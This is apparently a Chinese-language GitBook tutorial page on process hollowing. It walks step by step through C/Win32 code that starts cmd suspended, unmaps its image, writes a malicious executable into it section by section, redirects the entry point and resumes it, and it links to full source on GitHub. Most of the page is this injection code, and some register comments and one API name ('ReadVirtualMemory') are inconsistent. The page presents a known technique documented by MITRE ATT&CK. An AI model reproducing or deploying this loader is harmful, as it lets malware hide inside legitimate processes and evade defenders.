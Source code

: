 ```yaml
---
description: 进程镂空
---
```


# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。

![](../.gitbook/assets/process-hollowing.gif)

## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果

![](../.gitbook/assets/image%20%2853%29.png)

## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}



